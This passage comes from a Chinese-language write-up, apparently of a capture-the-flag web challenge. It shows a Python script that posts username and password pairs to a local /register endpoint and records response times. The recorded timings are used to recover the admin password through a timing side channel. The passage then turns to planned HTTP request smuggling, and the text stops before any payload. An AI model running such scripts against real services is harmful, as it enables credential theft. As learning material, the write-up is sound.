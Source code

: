          ```python
         import requests
         import os
         
         if __name__ == '__main__':
             url = 'http://127.0.0.1/register'
             path1 = './2021-05-16 13-05-37.txt'
             path2 = './2021-05-16 13-59-18.txt'
         
             res_path = './result.txt'
         
             header = {"Content-Type": "application/x-www-form-urlencoded"}
         
             with open(path1, 'r') as f1, open(path2, 'r') as f2, open(res_path, 'a') as result_file:
                 while True:
                     parameter1 = f1.readline().replace('\n', '').replace('\r', '')
                     parameter2 = f2.readline().replace('\n', '').replace('\r', '')
         
                     parameter1_name = 'username'
                     parameter2_name = 'password'
         
                     if not parameter1 or not parameter2:
                         print('attack finished')
                         break
         
                     data = {parameter1_name: parameter1, parameter2_name: parameter2}
                     resp = requests.post(url=url, data=data)
                     print('{},{},{}\n'.format(parameter1, resp.elapsed.total_seconds(), resp.text))
                     result_file.write('{},{}\n'.format(parameter1, resp.elapsed.total_seconds()))
         
         ```
     
       * 将产出的结果使用Excel打开进行排序，会发现有64行的请求时间会是其它行的十倍以上，将这64行的密码进行按序拼接，即可得到admin的密码
     
       * 但是！！！这是在本地调用能调到注册接口，怎么调用远端的注册接口呢？！！

6. 继续尝试调用远端的注册POST接口

   * 打印router的/register`的POST接口路由

     ```json
     Layer {
       handle: [Function: bound dispatch],
       name: 'bound dispatch',
       params: undefined,
       path: undefined,
       keys: [],
       regexp: /^\/register\/?$/i { fast_star: false, fast_slash: false },
       route: Route {
         path: '/register',
         stack: [ [Layer] ],
         methods: { post: true }
       }
     }
     ```

   * 发现NodeJS的v8版本存在HTTP走私漏洞，尝试构造Payload

